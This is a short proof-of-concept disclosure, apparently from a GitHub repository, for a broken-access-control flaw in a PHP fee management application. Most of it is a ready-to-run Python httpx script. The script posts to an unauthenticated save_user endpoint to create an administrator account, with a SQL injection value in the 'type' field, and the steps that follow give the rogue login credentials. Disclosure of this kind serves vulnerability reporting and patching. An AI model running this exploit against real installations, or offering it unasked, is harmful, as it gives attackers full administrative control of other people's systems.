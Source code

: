 Best Fee Management System POC
---
## Vulnerability Type
CWE-264: Permissions, Privileges, and Access Controls

## Mitigation
There must be access control for the sentitive interfaces.

## Impact
Allows an attacker to gain full control of the system information.

## Proof of Concept
Setup: `pip install httpx`

```python
import httpx


response = httpx.post(
    url="http://localhost/click_fees/ajax.php?action=save_user",
    data={
        "name": "evil",
        "username": "evil@mars.io",
        "password": "evil",
        "type": "1'#", # SQL injection is necessary, beacuase of a server bug.
    },
    proxies="http://localhost:8080",
)

print(response.text)
```

## Steps To Reproduce
After execute POC script, attacker can login system with:
* username: evil@mars.io 
* password: evil
